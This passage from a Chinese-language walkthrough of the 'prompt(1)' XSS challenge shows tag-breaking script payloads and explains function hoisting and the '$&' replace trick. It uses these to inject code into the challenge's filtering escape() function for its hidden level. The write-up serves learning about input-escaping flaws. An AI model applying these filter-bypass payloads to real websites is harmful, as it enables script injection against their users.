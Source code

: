 ```
"><svg><!--#--><script><!--#-->prompt(1)</

```

在最新的 Firefox Aurora 版本上，还可以如下（译者未测试）：

```
"><script>`#${prompt(1)}#`</script>

```

## Hidden Level

这里主要使用了两个非常有用的技巧，第一个是 javascript 的变量提升，以下语法可以在 chrome 下 F12 执行

```
function functionDeclaration(a,b,c) {
    alert('Function declared with ' + functionDeclaration.length + ' parameters');
}

functionDeclaration(); //alert > Function declared with 3 parameters

```

还有一个技巧就是第 13 题提到的`replace()`的匹配技巧，使用`$&`，测试如下：

```
'123456'.replace('34','$&x')

'1234x56'   //x 直接插入到 查找到的 34 位置 
```

所以可以构造下面的代码

```
if (history.length > 1337) {                                 
   // you can inject any code here
   // as long as it will be executed
   function history(l,o,r,e,m...1338 times...){{injection}}
   prompt(1)
}   

```

### code

```
function escape(input) {
    // WORLD -1
    // strip off certain characters from breaking conditional statement
    input = input.replace(/[}<]/g, '');
    return '                                                     \n\
<script>                                                         \n\
    if (history.length > 1337) {                                 \n\
        // you can inject any code here                          \n\
        // as long as it will be executed                        \n\
        {{injection}}                                            \n\
    }                                                            \n\
</script>                                                        \n\
    '.replace('{{injection}}', input);
}

```
